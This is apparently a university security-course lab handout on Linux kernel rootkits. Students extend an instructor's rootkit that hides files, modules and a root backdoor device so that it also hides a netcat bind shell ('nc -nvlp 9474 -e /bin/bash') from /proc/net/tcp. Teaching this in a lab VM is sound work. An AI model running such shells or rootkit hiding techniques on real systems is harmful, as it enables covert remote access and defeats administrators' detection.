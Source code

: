 ```yaml
---
title: Kernel Backdoors and Rootkits
parent: System Security
nav_order: 2
summary: Rootkits
---
```


# Lab 9: Kernel Rootkits

This lab will introduce you to both kernel module programming and to kernel
backdoors rootkits. You will take an existing kernel rootkit written by your instructor
and extend it.

**Due Date: Monday 03/07/22 before class**

## Lab Description
This lab will guide you through kernel rootkit construction. More details are
in the code's repo and below, but here is the gist. The rootkit already is
written to:

- Hide our rootkit source and object files from the filesystem (`b4rnd00r.{c,ko}`)
- Hide our rootkit from the kernel's list of loaded modules (by scrubbing `/proc/modules`)
- Hide our parasite library from the previous lab, `libtest.so.1.0`, (by scrubbing `/proc/PID/maps`)
- Create a local backdoor to get us root by exposing a device file at
  `/dev/b4rn`. When a user writes a [special string](https://www.youtube.com/watch?v=7R0mD3uWk5c) to that file, the user will
  become root.
- Hiding the backdoor character device file (`/dev/b4rn`).

### Getting the Code
You'll want to use the SEED 16.04 Ubuntu VM for this lab. In the VM, you can
get the code for this lab by cloning your instructor's repo:

```bash
git clone https://github.com/khale/kernel-rootkit-poc
```
Make sure to go through the `README` in the repo. The SEED VM should have everything necessary to load the rootkit.


### Task 1: The code
Understand the code. You should realize that the kernel module's entry point
(`b4rn_init()`) is invoked after the module is loaded by the kernel (e.g., by
`insmod` or `modprobe`). Start there and read comments carefully.

### Task 2: The Backdoor

Could an attacker use the backdoor exposed by the rootkit to remotely get
access? Explain why or why not.

Realize that this is a pretty rudimentary backdoor. There are certainly more stealthy ways to do this (e.g., so we don't create an unwanted device file on the system). Can you think of any?

By the way, there have been [nefarious attempts](https://lwn.net/Articles/57135/) to backdoor the kernel itself,
though they were unsuccessful. This isn't limited by any means to kernel space.
The NSA is suspected to have [backdoored](https://miracl.com/blog/backdoors-in-nist-elliptic-curves/) a standard altorithm widely used for
encryption. Your instructor's [favorite example of a backdoor](https://www.win.tue.nl/~aeb/linux/hh/thompson/trust.html) was one injected
by a C compiler into the UNIX login program, devised by the [UNIX man himself](https://en.wikipedia.org/wiki/Ken_Thompson).
Definitely worth a read.


### Task 3: Hiding in Plain Sight

Explain why we must (1) use function pointers and `kallsyms_*()` functions to call certain routines and (2) manipulate `cr0` and page protections to install our function overrides.

Suppose I wanted to make it very hard for a system administrator to remove my rootkit from the system. What are some things I could do to prevent that? (Hint: there is a `reboot()` system call)

### Task 4: Remote Backdoor

For this task you'll be extending b4rnd00r to hide a remote backdoor (i.e.,
a bindshell running on the system). First run a bind shell like so:

```bash
nohup nc -nvlp 9474 -e /bin/bash >/dev/null 2>&1 &
```

This listens on port 9474, and when a client connects it will spawn a shell and
send output back out over the network socket. The `nohup` command prevents the
netcat program from exiting after we log out of the system (which we would
probably do after we've owned a machine and set up the backdoor). The
redirection just silences output on the server side.

If you've got bridged networking set up for your VM, you should be able to
access this bind shell as follows from your **host** machine:

```bash
nc <VM-IP> 9474
```

You can access it with NAT networking as well, but you'll have to forward the
9474 port with your hypervisor. It's probably just easier to use bridged
networking. Other than the `nc` process itself, the listening socket can be seen
by an auditor pretty easily by using `netstat`:

```
$ netstat -tl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 cato:domain             0.0.0.0:*               LISTEN     
    tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:9474            0.0.0.0:*               LISTEN     
    tcp6       0      0 localhost:ipp           [::]:*                  LISTEN     
    tcp6       0      0 [::]:9474               [::]:*                  LISTEN
```


This is no good if we're trying to be stealthy. We can pretty much guess that
this information is coming from the kernel, and almost certainly from `/proc`
somewhere, and that `netstat` is really just sugar coating the kernel's output.
We can do some digging to find out exactly where:

```
 $ strace netstat -tl 2>&1 | grep "^open" | grep "proc"
    openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
    openat(AT_FDCWD, "/proc/net/tcp6", O_RDONLY) = 3
```

Sure enough, `netstat` is really just a wrapper around the `/proc` interface. Let's
see the raw information straight from the source (the kernel):

```
$ cat /proc/net/tcp
     sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
       0: 017AA8C0:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 34934 1 000000007060ba94 100 0 0 10 0 
       1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 30174 1 00000000d07a82df 100 0 0 10 0
       2: 00000000:2502 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 59441 1 000000003a4d11ec 100 0 0 10 0
```

You can see why `netstat` exists now. This output is pretty opaque. If we
realize that 9474 is actually 0x2502, however, we can pretty easily identify
our bind shell. This gives us a hint on how to hide our connection then,
because we really just need to scrub this output to remove that line in our
rootkit. This is your task!

Some hints:
- You should be able to use the same `seq_file` technique used for the maps file.
- Network sockets are also exposed in `/proc`. You will focus on TCP (IPv4). You will thus need to take a look at `/proc/net/tcp`.
- The proc dirs for `/proc/net` are organized in a red black tree. See [here](https://lwn.net/Articles/184495/) and understand the `init_net` struct from the `net/tcp.h` header and its `proc_net` member field. You will want to use helper functions provided by Linux like `rb_first()`, `rb_last()`, `rb_entry()`, `struct proc_dir_entry` etc.
- When you override the seq file, you will need to use `struct inet_sock` (which you can derive from the `v` pointer in your seq handler using the `inet_sk` helper function). You will need to extract the port number from the socket structure (see `ntohs()`).


## Handin
Please write your lab report according to the description. Please also list the
important code snippets followed by your explanation. You will not receive
credit if you simply attach code without any explanation. Upload your answers
as a PDF to blackboard


## Suggested Reading
- Intro to [Linux kernel modules](https://tldp.org/HOWTO/Module-HOWTO/x73.html)
- Linux VFS, proc, and root filesystems [article](Linux VFS, proc, and root filesystems article)
- Kernel documentation on [seq files](https://www.kernel.org/doc/Documentation/filesystems/seq_file.txt)
- Another [rootkit example](https://0x00sec.org/t/hiding-with-a-linux-rootkit/4532)
- [Article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) on bind shells, reverse
shells, etc.
- [Sysdig](https://github.com/draios/sysdig)
- [Looking back at Multics security](https://hack.org/mc/texts/classic-multics.pdf)

